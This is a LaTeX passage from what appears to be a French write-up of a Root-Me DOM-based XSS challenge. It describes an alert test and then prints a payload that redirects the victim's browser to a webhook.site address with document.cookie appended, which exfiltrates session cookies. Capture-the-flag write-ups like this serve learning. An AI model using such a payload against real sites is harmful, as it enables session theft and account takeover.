 \documentclass[12pt,a4paper]{article}
\begin{document}
\begin{figure}[!h]
    \centering
    \begin{minipage}{0.45\textwidth}
        \centering
        \includegraphics[scale=0.5]{xss_code_alert.png}
        \caption{Injection du code}
    \end{minipage}
    \begin{minipage}{0.45\textwidth}
        \centering
        \includegraphics[scale=0.5]{alert.png}
        \caption{Résultat}
    \end{minipage}
    \caption{Premier test}
\end{figure}

Maintenant que cette simple requête fonctionne, j'ai décidé d'aller un peu plus loin, en essayant d'envoyer une requête depuis le champs du formulaire de la page "Main" vers le site webhook pour voir ce que j'obtiens avec cette requête. \\

\textit{NB: À partir de là, j'ai commencer à fouiller différentes ressources pour déterminer l'url de mes requêtes: le forum du challenge sur root-me, dont \href{https://www.root-me.org/fr/Documentation/Web/DOM-Based-XSS?lang=fr}{cette ressource}, ainsi que différents blogs sur le net }\\


\url{ d'; document.location="https://webhook.site/ec7d4396-2f5f-436d-bdc7-1db1e8c78cd5?cmd=".concat(document.cookie);//}

\begin{figure}[!h]
	\centering
	\includegraphics[scale=.3]{xss_webhook_1.png}
	\caption{webhook 1}
\end{figure}
\end{document}
